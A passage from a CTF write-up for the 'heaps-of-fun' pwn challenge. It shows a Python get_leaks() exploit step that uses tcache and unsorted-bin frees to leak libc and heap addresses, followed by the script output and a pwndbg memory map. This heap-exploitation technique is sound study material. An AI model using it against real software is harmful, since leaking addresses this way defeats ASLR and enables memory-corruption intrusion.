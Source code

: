 Then we can use a similar `get_leaks()` function to get the libc leak and the heap leak:

```python
def get_leaks():
        # Remember: each create() call allocates 2 chunks on the heap
        create(0, 0x20, b'chunk0', 0x20, b'value0')
        create(1, 0x30, b'chunk1', 0x30, b'value1')
        create(2, 0x10, b'chunk2', 0x10, b'value2')
        create(3, 0x10, b'chunk3', 0x500, b'value3')
        create(4, 0x10, b'barrier', 0x10, b'barrier')

        free(2)     # Free in reverse order
        free(1)     # because tcachebin also
        free(0)     # fills in LIFO layout.
        free(3)     # Goes in unsorted bin.

        data = read(3) # Read libc leak ( via unsorted bin )
        data = data.split(b'val = ')[1].split(b'\\x00')[0].decode()
        leak = custom_u64(data)
        log.info('libc leak @ %s' % hex(leak))

        data = read(0)
        data = data.split(b'key = ')[1].split(b'\\x00')[0].decode()
        global heap
        heap = custom_u64(data) << 12
        log.success('heap base @ %s' % hex(heap))
```

On calling `get_leaks()` I get the following output:

```console
>>>
[*] libc leak @ 0x7571d081ace0


       =[ read ]=
index:
>>>
[+] heap base @ 0x58c38be47000
```

We can attach a debugger and verify if the heap base is correct:

```
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
             Start                End Perm     Size Offset File
    0x58c38bbfc000     0x58c38bbfd000 r--p     1000      0 /home/vulnx/Games/CTFs/amateurs/pwn/heaps-of-fun/heaps-of-fun/chal
    0x58c38bbfd000     0x58c38bbfe000 r-xp     1000   1000 /home/vulnx/Games/CTFs/amateurs/pwn/heaps-of-fun/heaps-of-fun/chal
    0x58c38bbfe000     0x58c38bbff000 r--p     1000   2000 /home/vulnx/Games/CTFs/amateurs/pwn/heaps-of-fun/heaps-of-fun/chal
    0x58c38bbff000     0x58c38bc00000 r--p     1000   2000 /home/vulnx/Games/CTFs/amateurs/pwn/heaps-of-fun/heaps-of-fun/chal
    0x58c38bc00000     0x58c38bc01000 rw-p     1000   3000 /home/vulnx/Games/CTFs/amateurs/pwn/heaps-of-fun/heaps-of-fun/chal
    0x58c38be47000     0x58c38be68000 rw-p    21000      0 [heap]
    0x7571d0600000     0x7571d0628000 r--p    28000      0 /home/vulnx/Games/CTFs/amateurs/pwn/heaps-of-fun/heaps-of-fun/lib/libc.so.6
    0x7571d0628000     0x7571d07bd000 r-xp   195000  28000 /home/vulnx/Games/CTFs/amateurs/pwn/heaps-of-fun/heaps-of-fun/lib/libc.so.6
...
```

